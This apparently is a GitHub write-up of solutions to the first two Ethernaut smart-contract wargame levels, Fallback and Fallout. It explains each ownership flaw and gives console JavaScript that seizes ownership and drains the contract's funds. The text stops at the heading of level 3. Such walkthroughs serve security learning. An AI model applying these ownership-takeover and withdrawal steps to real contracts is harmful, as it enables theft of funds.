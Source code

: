 # Ethernat-Solution-and-Explanation
## 1. Fallback ★☆☆☆☆
### Level Target

1. Take ownership of the contract.
2. Withdraw all funds from the contract. (Only the owner can do so)

### Break Down & Analyze

1. Two ways to take ownership:
    1. Contribute more eth than the owner does → unrealistic, you can’t contribute more than 0.001 ether at one transaction, and the owner already has 1000 ether of contribution when the contract is built. (unfair, right?)
    2. So the other way to hack the contract is from receive function, in order to call receive, you’ll need to satisfy two conditions.
        * send some eth when calling receive.
        * already had contributions before.
        
        Once you meet these two conditions and successfully call receive, the first target is fulfilled.
        
2. Only the owner can withdraw the funds:
    1. Since only the owner can withdraw funds, it is required to complete the first target before this step.
    2. Once you become the owner, it is effortless to withdraw all the funds!

### Detailed Steps (work through the console)

```js
await contract.contribute({ value: toWei("0.000001") }) // contribute first, so that you'll be able to call receive
await contract.getContribution().then(fund => fromWei(fund.toString())) // confirm if you have contributed
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')}) // call receive with some ether sent
await contract.owner() === player // check if you're the owner now
await contract.withdraw() // take all the funds out from the contract!!!
```

## 2. Fallout ★☆☆☆☆

### ### Target

1. Take ownership of the contract

### Break Down & Analyze

The constructor has typo: Fal”1”out. Since the wrong spelling, it is served as a function rather than a constructor, so everyone can call it and take the ownership.

### Detailed Steps (work through the console)

```js
await contract.Fal1out() // call the wrong-spelled function to take ownership
await contract.owner() === player // check if you're the owner now
```

## 3. Coin Flip ★★☆☆☆
